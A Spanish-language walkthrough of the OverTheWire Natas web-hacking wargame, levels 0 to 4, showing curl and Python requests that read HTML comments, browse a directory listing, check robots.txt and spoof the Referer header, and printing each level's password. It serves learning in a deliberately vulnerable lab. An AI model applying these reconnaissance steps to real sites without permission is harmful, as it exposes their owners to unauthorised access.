 
Natas son retos de pentesting web de "Over-The-Wire". Yo voy a realizar los ejercicios usando scripting en python y bash
Para resolver la pagina hay que encontrar la contraseña para autenticarse en el nivel siguiente con el usuario llamado igual que en nivel actual.

## (Natas0)[http://natas0.natas.labs.overthewire.org]

*Vulnerabilidad: credenciales en el codigo fuente*

El nivel inicial, esconde la credencial en el código fuente. (clic derecho)
Con scripting se puede ver muy facilmente
```python
import requests
url = "http://natas0.natas.labs.overthewire.org/"
req = requests.get(url, auth=("natas0","natas0"), verify=False)
print(req.text)
```
Desde consola tambien es pan comido
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas0.natas.labs.overthewire.org" -u natas0:natas0
... <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
## (Natas1)[http://natas1.natas.labs.overthewire.org]

*Vulnerabilidad: credenciales en el codigo fuente*
*Restriccion: click derecho en el navegador*

El segundo nivel si visitas la web te dice que el click derecho esta prohibido. Nos autenticamos con la contraseña de antes.
Aunque se desactive dicho click en el navegador, con curl o python se puede acceder igualmente al codigo fuente
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas1.natas.labs.overthewire.org" -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto
... <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

## (Natas2)[http://natas2.natas.labs.overthewire.org]

*Vulnerabilidad: directory liting*

En la web aparentemente no hay nada y en el codigo fuente de natas2 no sale la contraseña, pero si sale un "img src" o sea una ruta de donde saca una foto.
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas2.natas.labs.overthewire.org" -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
... <img src="files/pixel.png">
```
Si ponemos en el nevegador la ruta ```"http://natas2.natas.labs.overthewire.org/files"``` tenemos un directory listing, es decir una lista de todos los 
elementos que estan bajo dicha ruta, (entre ellas la foto de pixel.png) pero tambien un archivo de texto "users.txt" con la contraseña.

## (Natas3)[http://natas3.natas.labs.overthewire.org]

*Vulnerabilidad: rutas criticas en el robots.txt*

Otro "no hay nada en esta web" en el navegador
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas3.natas.labs.overthewire.org" -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 
<!-- No more information leaks!! Not even Google will find it this time... -->
```
Nos dice que no va a haber mas crendeciales filtradas, y que ni siquiera Google nos encontrará. Eso ultimo es una pista hacia la ruta "robots.txt"
la cual evita que Google indexe/encuentre ciertas rutas sensibles.
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas3.natas.labs.overthewire.org/robots.txt" -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 
User-agent: *
Disallow: /s3cr3t/
```
Dicho "/s3cr3t" nos lleva a otro users.txt con las credenciales

## (Natas4)[http://natas4.natas.labs.overthewire.org]

*Restriccion: referrer limitado*

Este nivel nos dice que solo acepta a gente que venga desde ```http://natas5.natas.labs.overthewire.org/```, es decir que desde esa página hayan pinchado en un link para venir a la actual. Esto se llama referrer. Con curl se puede esècificar dicho referrer con "-e"
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas4.natas.labs.overthewire.org" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ \
> -e http://natas5.natas.labs.overthewire.org/
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
## (Natas5)[http://natas5.natas.labs.overthewire.org]







